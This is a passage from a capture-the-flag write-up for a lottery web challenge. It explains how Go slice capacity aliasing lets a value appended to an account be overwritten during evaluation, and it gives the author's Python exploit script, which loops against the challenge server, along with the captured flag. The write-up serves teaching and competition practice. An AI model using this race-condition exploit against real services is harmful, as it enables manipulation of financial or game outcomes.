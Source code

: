 Running a few times and you will get:

```
len=0 cap=8 []
len=2 cap=8 [1 2]
len=2 cap=8 [1 2]
```

The underlying reason behind this is explained well in the article. Therefore the idea is straightforward now. The exploit steps:

1. Create a account and append 3 numbers such that the capacity of the array is 4.
2. Add this account into the lottery.
3. Append a new number `87` into the account.
4. If the `evaluate()` is invoked at the same time, our number `87` will be replaced with this big random number.
5. We become millionaires now!

My exploit script:

```python
#!/usr/bin/env python3
import requests

s = requests.session()

url = 'https://lottery.zajebistyc.tf'

names = []
for _ in range(999999):
    r = s.post(url + "/account").json()
    name = r['name']
    names.append(name)
    for _ in range(3):
        r = s.post(url + f'/account/{name}/amount', json=dict(amount=99))
        #print(r.text)
    r = s.get(url + f'/account/{name}')
    #print(r.text)

    r = s.post(url + f'/lottery/add', json=dict(accountName=name))
    #print(r.text)

    r = s.post(url + f'/account/{name}/amount', json=dict(amount=87))
    #print(r.text)
    r = s.get(url + f'/account/{name}')
    print(r.text)
    with open('log','a') as f:
        print(r.text, file=f)
```


After running for a few minutes, we got the juicy flag:

```
{"account":{"name":"TmkFbDtDIFyLjiCI","amounts":[99,99,99,2042896]},"flag":"p4{fucking-go-slices.com}"}
```
